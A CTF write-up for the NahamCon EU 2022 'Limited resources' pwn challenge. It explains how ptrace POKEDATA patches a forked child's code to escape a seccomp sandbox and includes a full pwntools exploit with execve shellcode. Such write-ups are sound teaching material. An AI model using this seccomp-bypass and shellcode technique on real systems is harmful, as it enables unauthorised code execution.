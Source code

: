 ## Limited resources

was a pwn challenge from NahamCon EU CTF 2022.<br>

a relatively hard challenge, it only had 5 solves at the end of the ctf.<br>

the program has no PIE and only partial RELRO as you can see:<br>

![](./pics/checksec.png)

when we launch it the program, after a small setup, immediatly fork,

the child process is an endless loop that does almost nothing as you can see in the reversed C code:

```c
{
    buffer = (char *)malloc(0x100uLL);
    while ( 1 )
    {
      strcpy(test_buffer, "Hello world!\n");
      if ( !strncmp(test_buffer, "Give me the flag!", 0x11uLL) )
        printf("I will not give you the flag!");
      cmp = strncmp(test_buffer, "exit", 4uLL);
      if ( !cmp )
        break;
      sleep(0x3E8u);
    }
  }
```

the child copy a string to a buffer on stack, then check if this buffer contains another string, in this case display a message, or exit..then sleep 1000 seconds, and loop indefinitely...<br>

pretty useless code as you can see..<br>

the parent process is more interesting, it displays this menu:<br>

```
Enter the command you want to do:
1) Create Memory
2) Get Debug Informationn
3) Execute Code
4) Exit
```

the option 1,  allocate a memory of the wanted size with mmap, then you can choose its permissions, and copy the data you want in it..(it will be a shellcode off course...)<br>

the option 2,  return the pid of the child.<br>

the option 3, will permit you to execute any function at any address, and before jumping to this code will setup a seccomp that looks like this: <br>

![](./pics/seccomp.png)

it will allows these listed syscalls, and forbid any others..<br>

so no `open`, `read`, `write`, no `execve`...<br>

pretty limited..but not so much...<br>

### the exploitation

well the way I exploit it (and it seems it is the intended way), is to trace the child with the parent with ptrace syscall (that is allowed)<br>

we attach to the child, than we use ptrace POKEDATA function to modify it's code, and patch the program memory of child.<br>

as the program as no PIE, we know were are the child instruction in memory.<br>

if you look at child code disassembly, you can see that the end of his loop, the `sleep()` calls, is followed by a `jmp` instruction that will go to the start of the loop.<br>

![](./pics/ida1.png)

so we can patch this `jmp` instruction with `nop` instructions to remove it.<br>

and when child will awake from `sleep()` call, it will goes in parent menu loop, instead of restarting his meaningless loop...

we will patch also the call to `ProtectProgram()` that setup the seccomp in the child code..<br>

like this, when the child will awake from sleep(), we will make it execute a simple `execve` shellcode, and we will get an unrestricted shell<br>

I added a patched binary `limited_resources_patched` in my github for the local tests, to have a small sleep() of only 10 seconds..<br>

![](./pics/gotflag.gif)

### alternative exploitation ideas

I first started by editing a GOT entry from child's used functions (and it could work too), but in fact with PTRACE_POKEDATA you can also write in Read-Only memory zone.. so finally I just patched the code, it was quicker<br>

for example, you could replace a GOT entry from `strncmp` or `sleep` , one of the functions used by child, by a onegadget for example..<br>

or even simpler you can write your shellcode directly after the sleep() calls in child, and it will be executed straight forward...<br>

many ways to exploit it so...<br>

### exploit

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def logleak(name, val):  log.info(name+" = %#x" % val)
def sa(delim,data): return p.sendafter(delim,data)
def sla(delim,line): return p.sendlineafter(delim,line)
def sl(line): return p.sendline(line)
def rcu(d1, d2=0):
  p.recvuntil(d1, drop=True)
  # return data between d1 and d2
  if (d2):
    return p.recvuntil(d2,drop=True)

# patched binary version with shorter sleep
exe = ELF('./limited_resources_patched')

host, port = "challenge.nahamcon.com", "32422"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process(exe.path)

sla('Exit\n','2')
pid = int(rcu('PID = ','\n'),10)
logleak('pid',pid)

shellc = asm('''
looping:

  mov ebp,%d		/* ebp = pid of child */
// ptrace(PTRACE_ATTACH,child,0,0)
  mov edi,0x10
  mov esi,ebp
  xor edx,edx
  xor r10,r10
  mov eax,101
  syscall

// wait a bit
  mov rcx,0xffffffff
wait:
  nop
  nop
  loop wait

/* patch program to remove jmp after call to sleep() */
/* ptrace(PTRACE_POKEDATA,chid, addr, data */
  mov edi,5
  mov esi,ebp
  mov edx,0x4018df
  mov r10,0xE800402090bf9090
  mov eax,101
  syscall

/* patch program to remove call to protectprogram() */
/* ptrace(PTRACE_POKEDATA,chid, addr, data */
  mov edi,5
  mov esi,ebp
  mov edx,0x401aa9
  mov r10,0x9090909090000000
  mov eax,101
  syscall

// ptrace(PTRACE_DETACH,child,0,0
  mov edi,0x11
  mov esi,ebp
  xor edx,edx
  xor r10,r10
  mov eax,101
  syscall


loopit:
 jmp loopit

format:
  .ascii "result = %%llx"
  .byte 10

''' % pid)

# create a RWX mem zone
sla('Exit\n','1')
sla('be?\n', '140000')
sla('y?\n', '7')
sla('de?\n', shellc)
# leak buffer address
buffer = int(rcu('at ', '\n'),16)
logleak('buffer at', buffer)

sla('Exit\n','3')
sla('code?\n', hex(buffer))

shellc2 = asm('''
	xor esi, esi
	push rsi
	mov rbx, 0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	imul esi
	mov al, 0x3b
	syscall
  ''')

# now the client is in menu loop
# but without call to seccomp before execute
sla('Exit\n','1')
sla('be?\n', '4096')
sla('y?\n', '7')
sla('de?\n', shellc2)

# send execve shellcode to client
shellc2_addr = int(rcu('at ', '\n'),16)
logleak('shellcode at', shellc2_addr)

sla('Exit\n','3')
sla('code?\n', hex(shellc2_addr))

# got flag
p.sendline('id;cat flag*')

p.interactive()
```

*nobodyisnobody still on the pwning side of life..*

